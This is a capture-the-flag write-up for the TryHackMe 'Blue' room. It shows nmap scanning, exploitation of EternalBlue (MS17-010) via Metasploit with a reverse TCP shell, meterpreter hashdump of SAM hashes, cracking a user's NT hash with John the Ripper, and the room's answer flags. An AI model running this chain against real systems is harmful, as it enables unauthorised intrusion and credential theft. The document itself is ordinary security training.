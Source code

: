 # Blue

Author: Corbett Stephens || July 14, 2021 || Contact: corbettdstephens@gmail.com

Blue is a TryHackMe room that explores the "Eternal Blue" exploit from older versions of Windows. 

The room can be found [here](https://tryhackme.com/room/blue).

---

The first thing I do is start up openvpn that way I can connect to the TryHackMe rooms.

`sudo openvpn nullbett.ovpn`

## Reconnaissance
Host ip address: `10.10.48.230`

Next, I ping the host to see if I can get a response.

`ping 10.10.48.230`

Response:

<pre>
PING 10.10.48.230 (10.10.48.230) 56(84) bytes of data.
64 bytes from 10.10.48.230: icmp_seq=1 ttl=125 time=180 ms
64 bytes from 10.10.48.230: icmp_seq=2 ttl=125 time=202 ms
64 bytes from 10.10.48.230: icmp_seq=3 ttl=125 time=224 ms
64 bytes from 10.10.48.230: icmp_seq=4 ttl=125 time=144 ms
64 bytes from 10.10.48.230: icmp_seq=5 ttl=125 time=167 ms
64 bytes from 10.10.48.230: icmp_seq=6 ttl=125 time=189 ms
^C64 bytes from 10.10.48.230: icmp_seq=7 ttl=125 time=212 ms
64 bytes from 10.10.48.230: icmp_seq=8 ttl=125 time=235 ms
^C
--- 10.10.48.230 ping statistics ---
8 packets transmitted, 8 received, 0% packet loss, time 7010ms
rtt min/avg/max/mdev = 144.010/193.973/235.202/28.333 ms
</pre>

We can see that the host is up and running, so now I can start with a nmap scan.

I ran the command:

`nmap -p0-1000 -sC -sV -vv 10.10.48.230 -oN initial.nmap`

- "-p0-1000" scans the first 1000 ports
- "-sC" uses the default script for enumeration
- "-sV" tries to specify versions
- "-vv" extra verbosity
- "-oN initial.nmap" writes the output to the file initial.nmap

Looking at the [output](https://github.com/nullbett/tryhackme/blob/main/blue/initial.nmap) I see that three ports are open.

<pre>
PORT    STATE SERVICE      REASON  VERSION
135/tcp open  msrpc        syn-ack Microsoft Windows RPC
139/tcp open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
</pre>

I also get a hint that a potential user is "Jon".

The next thing I would do is run another nmap scan to look for vulnerablities. This could be done in the initial nmap scan, but I decided to use two seperate scans. If stealth was a concern then I would do the previous steps differently.

To scan for vulnerabilites I used the same command but changed the script to "vuln".

`nmap -p0-1000 --script vuln -sV -vv 10.10.48.230 -oN vuln.nmap`

Luckily, the results yield some intersting [information](https://github.com/nullbett/tryhackme/blob/main/blue/vuln.nmap).

<pre>
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
</pre>

Do to the vuln script I can see that this system is vulnerable to smb-vuln-ms17-010 which allows for remote code execution.

A simple google search of "smb-vuln-ms17-010" will pull up the information about this vulnerability. Reading the first line of the [article](https://nmap.org/nsedoc/scripts/smb-vuln-ms17-010.html) we can see that ms17-010 is also known as "EternalBlue". This is helpful information because it will make it easier to find a module within Metasploit.

---

## Gaining Access

I now want to try to gain futher access on this machine. I have a potential attack vector by using the information on EternalBlue.

The first thing I do is fire up Metasploit!

I use Kali Linux which has Metasploit already installed. All I have to do is hit the home button and search for Metasploit. Once the metasploit shell is spawned the fun can begin. I now look for a module that uses the EternalBlue exploit.

This can be done via: `search eternalblue` in the metasploit shell.

The results I find are as shown below:

![](./pictures/ms_module.png)

The module I want is **exploit/windows/smb/ms17_010_eternalblue** because this uses a windows versions prior to windows 8.

An easy way to select the module you want to use is to enter `use <number>`, so I would enter "use 2" in this case.

Each module has required fields that have to be set before an exploit can be ran. This can be found by entering `options` into the shell. 

![](./pictures/module_options.png)

I need to set the RHOSTS which is the target host that we are attacking. I do this by entering:

`set RHOSTS 10.10.48.230`

In a normal TCP/IP connection, the client will issue a request to the server. The server will then respond the client. The client will respond again a connection will be established. If the server is using a firewall then this normal type of connection will be blocked. When reverse tcp is used, the server initiates a connection to the client (hense reverse). This allows for the client to reply to the server request and establish a connection. The playload that needs to be used is **windows/x64/shell/reverse_tcp**. 

The payload is set by doing `set payload windows/x64/shell/reverse_tcp`.

To run the exploit enter `exploit` or `run`.

If the exploit is successful then a DOS (disk operationg system) shell will appear as shown below.

![](./pictures/dos.png)

If I run "whoami" it says that I am "nt authority\system" which has very sensative user privileges.

I want upgrade this shell to a meterprerter shell as there are a lot of benefits to using a meterpreter shell. I used this [article](https://www.hackingarticles.in/command-shell-to-meterpreter/) to help me figure out how to upgrade my shell. 

To upgrade: `sessions -u 1`

![](./pictures/shell_2_meterpreter.png)

Now that we have our meterpreter shell, we can run "getsystem" to ensure that we are indeed "nt authority\system".

Just because our user is system, doesnt mean that the process is. We will want to switch our process to one that is running "nt authority\system". I used `migrate <pid>` to do this.


Meterpreter has a handy command to dump the SAM database. SAM is the system accounts manager. The SAM database stores passwords locally. By using the `hashdump` command I can get this data and try to make something useful with it.

I get the following data:

<pre>
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
</pre>

In this case, I am interested in Jon. I created a file named "jon.hash" and put the hash values into the file. To crack this hash, I used John the Ripper which comes default on Kali Linux. I ran the following commands:

`john jon.hash --format=NT --wordlist=./rockyou.txt`

`john jon.hash --format=NT --show`

- "jon.hash" the file reading from
- "--format=NT" NT is the format of the hash that I got from the hash dump. It is common on Windows systems. I had to figure this out by researching the type of hash.
- "wordlist=./rockyou.txt" This uses a large file of common passwords to try to find the user password for Jon.
- "--show" Show the output.
<pre>
Jon:**alqfna22**:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
</pre>

Username: Jon

Password: **alqfna22**

---

## Find Flags
This part is just for answering the questions on TryHackMe.

The first flag can be found in the at the root.

Flag 1: `flag{access_the_machine}`

The second flag is found in config
C:\Windows\system32\config

Flag 2: `flag{sam_database_elevated_access}`

Flag 3 can be found in C:\Users\Jon\Documents

Flag 3: `flag{admin_documents_can_be_valuable}`

---

# Conclusion

This room allowed me to fully execute the famous EternalBlue exploit from top to bottom. In the process, I strengethed my skills in nmap, Metasploit, and John the Ripper. I started my reconnaissance with nmap, developed my attack vector with Metasploit, and derived user credentials with John the Ripper.

Thank you,

Corbett
